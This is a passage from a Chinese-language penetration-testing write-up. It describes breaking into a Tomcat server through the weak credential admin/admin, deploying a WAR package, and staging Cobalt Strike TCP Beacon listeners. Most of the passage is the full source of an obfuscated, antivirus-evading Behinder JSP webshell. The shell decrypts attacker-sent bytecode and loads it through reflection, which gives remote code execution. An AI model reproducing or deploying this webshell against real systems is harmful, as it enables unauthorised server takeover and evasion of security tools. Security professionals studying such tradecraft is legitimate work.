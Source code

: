 2、双层代理，可以使用代理链实现

## Tomcat 部署 war 包

扫描结果看到一个 tomcat 弱密码 admin/admin，感觉有戏，熟悉的部署 war 包环节

制作免杀冰蝎马，默认密码 rebeyond，打成 war 包

jar -cvf shell.war ./shell.jsp

```java
<%! public byte[] A14I0(String Strings,String k) { try {javax.crypto.Cipher BI3fM5 = javax.crypto.Cipher.getInstance("AES/ECB/PKCS5Padding");BI3fM5.init(javax.crypto.Cipher.DECRYPT_MODE, (javax.crypto.spec.SecretKeySpec) Class.forName("javax.crypto.spec.SecretKeySpec").getConstructor(byte[].class, String.class).newInstance(k.getBytes(), "AES"));int[] aa = new int[]{99, 101, 126, 62, 125, 121, 99, 115, 62, 82, 81, 67, 85, 38, 36, 84, 117, 115, 127, 116, 117, 98};String ccstr = "";for (int i = 0; i < aa.length; i++) { aa[i] = aa[i] ^ 0x010;ccstr = ccstr + (char) aa[i];}byte[] bytes = (byte[]) Class.forName(ccstr).getMethod("decodeBuffer", String.class).invoke(Class.forName(ccstr).newInstance(), Strings);byte[] result = (byte[]) BI3fM5.getClass()./*Z5Z48C2BT7*/getDeclaredMethod/*Z5Z48C2BT7*/("doFinal", new Class[]{byte[].class}).invoke(BI3fM5,new Object[]{bytes});return result;} catch (Exception e) {e.printStackTrace();return null;} } %><%  try {  String KP8HYn8 = "e45e329feb5d925b";  session.putValue("u", KP8HYn8);  byte[] I934d9i = A14I0 (request.getReader().readLine(),KP8HYn8);  java./*Z5Z48C2BT7*/lang./*Z5Z48C2BT7*/reflect.Method A14I0 = Class.forName("java.lang.ClassLoader").getDeclaredMethod/*Z5Z48C2BT7*/("defineClass",byte[].class,int/**/.class,int/**/.class);  A14I0.setAccessible(true);  Class i = (Class)A14I0.invoke(Thread.currentThread()./*Z5Z48C2BT7*/getContextClassLoader(), I934d9i , 0, I934d9i.length);  Object Q362 = i./*Z5Z48C2BT7*/newInstance();  Q362.equals(pageContext); } catch (Exception e) {response.sendError(404);} %>
```

![image-20220929113917980.png](assets/1698900874-b8928d54d4bd031f38267898c2bf2717.png)

探测一下发现不出网，这里直接使用 CS 自带的 TCP Beacon 正向连接

新建一个 TCP Listener
